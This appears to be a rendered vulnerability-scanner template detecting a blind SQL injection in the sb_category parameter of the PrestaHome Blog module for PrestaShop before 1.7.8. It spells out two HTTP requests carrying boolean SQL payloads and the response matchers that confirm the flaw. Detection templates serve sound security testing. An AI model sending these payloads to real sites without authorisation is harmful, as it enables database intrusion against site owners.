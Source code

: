 **Type - word**

- part - header
- words
  1. application/json

**Type - status**

- status
  1. 200

---

# PrestaHome Blog for PrestaShop \<1.7.8 - SQL Injection

## Description

- PrestaHome Blog for PrestaShop prior to version 1.7.8 is vulnerable to a SQL injection (blind) via the sb_category parameter.
- severity - high
- tags - cve,cve2021,prestashop,prestahome,sqli,cms

## Requests

### Step - 1

```
GET /module/ph_simpleblog/list?sb_category=')%20OR%20true--%20- HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
GET /module/ph_simpleblog/list?sb_category=')%20AND%20false--%20- HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. status_code_1 == 200
  2. status_code_2 == 404
  3. contains(body_1, "prestashop")
  4. contains(tolower(all_headers_2), 'index.php?controller=404')
  5. len(body_2) == 0
- condition - and

---
